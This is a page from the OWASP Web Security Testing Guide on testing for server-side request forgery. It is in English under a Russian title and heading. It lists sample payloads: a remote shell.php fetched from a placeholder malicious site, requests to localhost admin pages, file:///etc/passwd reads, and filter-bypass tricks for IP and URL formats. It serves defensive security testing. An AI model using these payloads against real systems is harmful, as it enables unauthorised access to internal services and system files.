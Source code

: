 ```yaml
---

layout: col-document
title: WSTG - Latest
tags: WSTG

---
```


{% include breadcrumb.html %}
# Тестирование подделки запроса на стороне сервера

|ID          |
|------------|
|WSTG-INPV-19|

## Summary

Web applications often interact with internal or external resources. While you may expect that only the intended resource will be handling the data you send, improperly handled data may create a situation where injection attacks are possible. One type of injection attack is called Server-side Request Forgery (SSRF). A successful SSRF attack can grant the attacker access to restricted actions, internal services, or internal files within the application or the organization. In some cases, it can even lead to Remote Code Execution (RCE).

## Test Objectives

- Identify SSRF injection points.
- Test if the injection points are exploitable.
- Asses the severity of the vulnerability.

## How to Test

When testing for SSRF, you attempt to make the targeted server inadvertently load or save content that could be malicious. The most common test is for local and remote file inclusion. There is also another facet to SSRF: a trust relationship that often arises where the application server is able to interact with other back-end systems that are not directly reachable by users. These back-end systems often have non-routable private IP addresses or are restricted to certain hosts. Since they are protected by the network topology, they often lack more sophisticated controls. These internal systems often contain sensitive data or functionality.

Consider the following request:

``` http
GET https://example.com/page?page=about.php
```

You can test this request with the following payloads.

### Load the Contents of a File

```http
GET https://example.com/page?page=https://malicioussite.com/shell.php
```

### Access a Restricted Page

```http
GET https://example.com/page?page=http://localhost/admin
```

Or:

```http
GET https://example.com/page?page=http://127.0.0.1/admin
```

Use the loopback interface to access content restricted to the host only. This mechanism implies that if you have access to the host, you also have privileges to directly access the `admin` page.

These kind of trust relationships, where requests originating from the local machine are handled differently than ordinary requests, are often what enables SSRF to be a critical vulnerability.

### Fetch a Local File

```http
GET https://example.com/page?page=file:///etc/passwd
```

### HTTP Methods Used

All of the payloads above can apply to any type of HTTP request, and could also be injected into header and cookie values as well.

One important note on SSRF with POST requests is that the SSRF may also manifest in a blind manner, because the application may not return anything immediately. Instead, the injected data may be used in other functionality such as PDF reports, invoice or order handling, etc., which may be visible to employees or staff but not necessarily to the end user or tester.

You can find more on Blind SSRF [here](https://portswigger.net/web-security/ssrf/blind), or in the [references section](#references).

### PDF Generators

In some cases, a server may convert uploaded files to PDF format. Try injecting `<iframe>`, `<img>`, `<base>`, or `<script>` elements, or CSS `url()` functions pointing to internal services.

```html
<iframe src="file:///etc/passwd" width="400" height="400">
<iframe src="file:///c:/windows/win.ini" width="400" height="400">
```

### Распространённые пути обхода фильтра

Some applications block references to `localhost` and `127.0.0.1`. This can be circumvented by:

- Using alternative IP representation that evaluate to `127.0.0.1`:
    - Decimal notation: `2130706433`
    - Octal notation: `017700000001`
    - IP shortening: `127.1`
- String obfuscation
- Registering your own domain that resolves to `127.0.0.1`

Sometimes the application allows input that matches a certain expression, like a domain. That can be circumvented if the URL schema parser is not properly implemented, resulting in attacks similar to [semantic attacks](https://tools.ietf.org/html/rfc3986#section-7.6).

- Using the `@` character to separate between the userinfo and the host: `https://expected-domain@attacker-domain`
- URL fragmentation with the `#` character: `https://attacker-domain#expected-domain`
- URL encoding
- Fuzzing
- Combinations of all of the above

For additional payloads and bypass techniques, see the [references](#references) section.

## Remediation

SSRF is known to be one of the hardest attacks to defeat without the use of allow lists that require specific IPs and URLs to be allowed. For more on SSRF prevention, read the [Server Side Request Forgery Prevention Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html).

## References

- [swisskyrepo: SSRF Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)
- [Reading Internal Files Using SSRF Vulnerability](https://medium.com/@neerajedwards/reading-internal-files-using-ssrf-vulnerability-703c5706eefb)
- [Abusing the AWS Metadata Service Using SSRF Vulnerabilities](https://blog.christophetd.fr/abusing-aws-metadata-service-using-ssrf-vulnerabilities/)
- [OWASP Server Side Request Forgery Prevention Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html)
- [Portswigger: SSRF](https://portswigger.net/web-security/ssrf)
- [Portswigger: Blind SSRF](https://portswigger.net/web-security/ssrf/blind)
- [Bugcrowd Webinar: SSRF](https://www.bugcrowd.com/resources/webinars/server-side-request-forgery/)
- [Hackerone Blog: SSRF](https://www.hackerone.com/blog-How-To-Server-Side-Request-Forgery-SSRF)
- [Hacker101: SSRF](https://www.hacker101.com/sessions/ssrf.html)
- [URI Generic Syntax](https://tools.ietf.org/html/rfc3986)
